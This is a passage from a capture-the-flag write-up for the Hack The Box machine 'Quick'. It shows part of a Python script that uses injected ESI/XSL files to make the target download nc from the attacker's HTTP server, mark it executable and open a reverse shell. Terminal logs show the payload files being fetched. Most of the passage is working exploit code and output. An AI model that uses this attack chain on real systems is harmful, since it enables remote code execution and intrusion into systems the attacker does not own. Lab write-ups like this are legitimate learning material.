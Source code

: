 ```python

if esi2_r.status_code == 200:
    print("Evil2 upload successful!\n")
    esi3_r = requests.post(ticket_url, headers = ticket_headers, data = esi3)
    time.sleep(1)
    ticGet3_r = requests.get(ticGet3_url, headers = ticGet_headers)
else:
    print("The request failed with status code: " + str(esi2_r.status_code))
    print("Did not upload evil2 successfully :(\n")
    sys.exit()

if esi3_r.status_code == 200:
    print("Evil3 upload successful!\n")
    print("Check your nc listener...shell should be inbound!\n")
else:
    print("The request failed with status code: " + str(esi3_r.status_code))
    print("Did not upload evil3 successfully :(\n")

#TODO: generalize urls and other data to be used other than in HTB; perhaps take as input arguments URL, PORT, USER, PASS, Commands to be run (foreach type loop)...
#TODO: exception handling
#TODO: instead of separate SimpleHTTPServer hosting different files, do in-script
#TODO: instead of nc listener in terminal, implement in-script
```

I ran the script with three separate ESL files.  Each were loaded with commands that would enable me to get a reverse shell.  The first send a version of `nc` that had the ability to execute commands upon connection.  The second ran `chmod +x nc` to ensure it was executable. The third contained my reverse shell command that would connect back to my machine.  I loaded up all of my files with different filenames, executed my script, and crossed my fingers hoping that everything would work.

```text
zweilos@kali:~/htb/quick$ python3 auto-evil.py 
Login successful!

Ticket submitted: code - 200
Evil1 upload successful!

Ticket submitted: code - 200
Evil2 upload successful!

Ticket submitted: code - 200
Evil3 upload successful!

Check your nc listener...shell should be inbound!
```

Everything looked like it completed without errors...

```text
zweilos@kali:~/htb/quick$ python -m SimpleHTTPServer 9088
Serving HTTP on 0.0.0.0 port 9088 ...
10.10.10.186 - - [15/Aug/2020 12:24:41] "GET /evil.xsl HTTP/1.1" 200 -
10.10.10.186 - - [15/Aug/2020 12:24:42] "GET /evil.xml HTTP/1.1" 200 -
10.10.10.186 - - [15/Aug/2020 12:24:42] "GET /nc HTTP/1.1" 200 -
10.10.10.186 - - [15/Aug/2020 12:24:45] "GET /evil1.xsl HTTP/1.1" 200 -
10.10.10.186 - - [15/Aug/2020 12:24:45] "GET /evil1.xml HTTP/1.1" 200 -
10.10.10.186 - - [15/Aug/2020 12:24:47] "GET /evil2.xsl HTTP/1.1" 200 -
10.10.10.186 - - [15/Aug/2020 12:24:47] "GET /evil2.xml HTTP/1.1" 200 -
```
